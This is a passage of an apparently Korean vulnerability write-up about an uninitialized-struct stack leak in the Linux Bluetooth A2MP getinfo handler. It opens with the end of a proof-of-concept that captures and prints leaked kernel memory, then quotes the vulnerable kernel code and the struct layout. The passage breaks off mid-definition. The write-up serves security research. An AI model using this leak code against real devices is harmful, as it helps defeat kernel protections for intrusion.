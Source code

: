 ```c++
    size_t buf_size = read(hci_socket, buf, sizeof(buf));
    if (buf_size > 0 && buf[0] == HCI_ACLDATA_PKT) {
      l2cap_hdr *l2_hdr = (l2cap_hdr *)(buf + 5);
      if (btohs(l2_hdr->cid) == AMP_MGR_CID) {
        uint64_t leak1 = *(uint64_t *)(buf + 13) & ~0xffff;
        uint64_t leak2 = *(uint64_t *)(buf + 21);
        uint16_t leak3 = *(uint64_t *)(buf + 29);
        printf("[+] Leaked: %lx, %lx, %x\n", leak1, leak2, leak3);
        break;
      }
    }
  }

  close(l2_sock);
  hci_close_dev(hci_socket);

  return 0;
}
```

## Analysis #1 핵심
본 취약점은 `A2MP_GETINFO_REQ` 요청에서 잘못된 hci 장치 ID 또는 `HCI_AMP` 유형이 아닌 ID를 지정할 때 발생한다. 응답으로 `a2mp_info_rsp` 구조체를 송신하는데, 구조체가 완전히 초기화되지 않은 상태로 응답하게 되어 스택 데이터가 드러나게 된다.

```c++
static int a2mp_getinfo_req(struct amp_mgr *mgr, struct sk_buff *skb,
			    struct a2mp_cmd *hdr)
{
	struct a2mp_info_req *req  = (void *) skb->data;
	struct hci_dev *hdev;
	struct hci_request hreq;
	int err = 0;

	if (le16_to_cpu(hdr->len) < sizeof(*req))
		return -EINVAL;

	BT_DBG("id %d", req->id);

	hdev = hci_dev_get(req->id);
	if (!hdev || hdev->dev_type != HCI_AMP) {
		struct a2mp_info_rsp rsp;

		rsp.id = req->id;
		rsp.status = A2MP_STATUS_INVALID_CTRL_ID;

		// rsp의 모든 멤버가 초기화되지 않음!

		a2mp_send(mgr, A2MP_GETINFO_RSP, hdr->ident, sizeof(rsp),
			  &rsp);

		goto done;
	}
	...
}
```
실제로 `a2mp_info_rsp` 구조체는 다음과 같이 구성되어있다.
```c++
struct a2mp_info_rsp {
	__u8	id;
	__u8	status;
	__le32	total_bw;
	__le32	max_bw;
	__le32	min_latency;
```